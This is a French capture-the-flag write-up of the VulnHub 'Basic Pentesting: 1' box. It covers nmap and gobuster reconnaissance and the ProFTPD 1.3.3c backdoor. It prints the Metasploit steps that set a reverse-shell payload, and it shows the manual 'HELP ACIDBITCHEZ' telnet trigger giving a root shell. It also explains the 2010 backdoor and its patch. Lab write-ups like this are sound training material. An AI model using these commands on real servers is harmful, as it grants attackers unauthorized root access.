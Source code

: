```yaml
---
title: "Write-up | Basic Pentesting: 1"
date: 2020-07-10T13:38:24+02:00
draft: false
tags:
  - writeup
  - vulnhub
  - rootme
---
```


Ce write-up est dédié à la box basic_pentesting_1. J'ai récupéré le .ova sur [VulnHub](https://www.vulnhub.com/), mais elle est également accessible sur [Root Me](https://www.root-me.org/).

Synopsis :
> This is a small boot2root VM I created for my university’s cyber security group. It contains multiple remote vulnerabilities and multiple privilege escalation vectors. I did all of my testing for this VM on VirtualBox, so that’s the recommended platform. I have been informed that it also works with VMware, but I haven’t tested this personally.
This VM is specifically intended for newcomers to penetration testing. If you’re a beginner, you should hopefully find the difficulty of the VM to be just right.
Your goal is to remotely attack the VM and gain root privileges. Once you’ve finished, try to find other vectors you might have missed!

## Reconnaissance

Scan des ports :
```
$ nmap -sV -sC 192.168.1.111 -oN scans/ports.txt
...
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Nous avons donc un port SSH ouvert, un port FTP ainsi qu'un serveur web Apache.
Énumération du serveur :
```
$ gobuster dir -u 192.168.1.111 -w /usr/share/wordlists/dirb/big.txt -o scans/dirs.txt
...
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/secret (Status: 301)
/server-status (Status: 403)
```
Super, un lien secret ! Il contient un blog WordPress vide.
Lors du scan des ports, j'ai remarqué que la version de ProFTPD est la 1.3.3c. Je la connais car elle possède une vulnérabilité assez sévère : une backdoor. De plus, il existe un module `msf` pour l'exploiter.

## Exploitation

```
msf5 > use exploit/unix/ftp/proftpd_133c_backdoor
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > set rhost 192.168.1.111
rhost => 192.168.1.111
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > show payloads
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > set lhost 192.168.1.209
lhost => 192.168.1.209
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > exploit
```
C'est quand même magique `msf` :)

L'inferface ouverte est quand même sacrément moche, du coup je fais spawn un shell en `python` :
```
python -c 'import pty; pty.spawn("/bin/sh")'
# whoami
whoami
root
```
:)

## ProFTPD 1.3.3c

Pourquoi ce service est vulnérable ?

En novembre 2010, le serveur principal du projet ProFTPD a été compromis. Les attaquants ont probablement utilisé une faille de sécurité non-patchée dans le démon FTP sur serveur pour gagner l'accès. Ils ont ensuite remplacé les fichiers source de ProFTPD 1.3.3c par une version qui contient une backdoor.

La modification a été remarquée quelques jours après et a été relayée aux équipes ProFTPD qui l'ont patché rapidement.

Comme on a pu le voir au fil de write-up, cette backdoor donne un accès root, c'est donc peu banal comme vulnérabilité.

Pour tester si un service est vulnérable, effectuer une connection `telnet` sur le port 21 du serveur et envoyer une commande spécifique suffit :
```
$ telnet 192.168.1.111 21
Trying 192.168.1.111...
Connected to 192.168.1.111.
Escape character is '^]'.
220 ProFTPD 1.3.3c Server (vtcsec) [192.168.1.111]
HELP ACIDBITCHEZ
id;
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
```
Bien évidemment, la solution la plus efficace face à cette faille est la mise à jour :)
